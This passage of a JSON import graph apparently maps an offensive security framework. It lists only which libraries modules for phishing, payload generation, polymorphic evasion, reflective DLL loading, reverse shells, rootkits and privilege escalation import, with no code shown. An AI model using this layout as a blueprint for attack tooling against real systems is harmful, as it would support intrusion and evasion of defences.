"netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/network_opsec.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/network_opsec.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/network_opsec.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/network_opsec.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/network_opsec.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/network_opsec.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/network_opsec.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nmap2csv.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nmap2csv.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nmap2csv.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nmap2csv.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nmap2csv.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nmap2csv.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nmap2csv.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/notify.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nuclei_templates_sync.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nuclei_templates_sync.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nuclei_templates_sync.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nuclei_templates_sync.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nuclei_templates_sync.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nuclei_templates_sync.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/nuclei_templates_sync.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/obs_parser.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ooficesod0woodo.py", "target": "uno"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "modules.apt_playbooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "modules.playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "modules.obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operation.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/operator_profiles.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/opsec_scorer.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/orchestrator_config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/orchestrator_config.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/orchestrator_config.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/orchestrator_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/orchestrator_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/orchestrator_config.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/osint_enrich.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/osint_enrich.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/osint_enrich.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/osint_enrich.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/osint_enrich.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/osint_enrich.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/osint_enrich.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/payload_factory.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "smtplib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "email.mime.multipart"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "email.mime.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/phishing_orchestrator.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/pipeline_engine.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "modules.playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "llm_client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/planner.py", "target": "modules.obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "stix2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "llm_client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "stix2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_engine.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/playbook_executor.py", "target": "modules.pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "zlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/polymorphic_engine.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/privesc_predictor.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/professional_report.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reactive_engine.py", "target": "modules.session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/recommender.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/recommender.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/recommender.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/recommender.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/recommender.py", "target": "ai_fallback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/recommender.py", "target": "session_state"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/redteam_gym.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reflective_dll.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reflective_dll.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reflective_dll.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reflective_dll.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reflective_dll.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/resource_script.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reverse-shell.c", "target": "linux/kmod.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/reverse-shell.c", "target": "linux/module.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/revshell.c", "target": "windows.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "tty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.align"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.box"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.layout"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.live"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "rich.tree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "modules.dashboard_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rich_tui.py", "target": "dashboard_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rl_trainer.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "pthread.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "signal.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "dirent.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "openssl/ssl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "openssl/err.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "sys/stat.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mr.c", "target": "libgen.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": 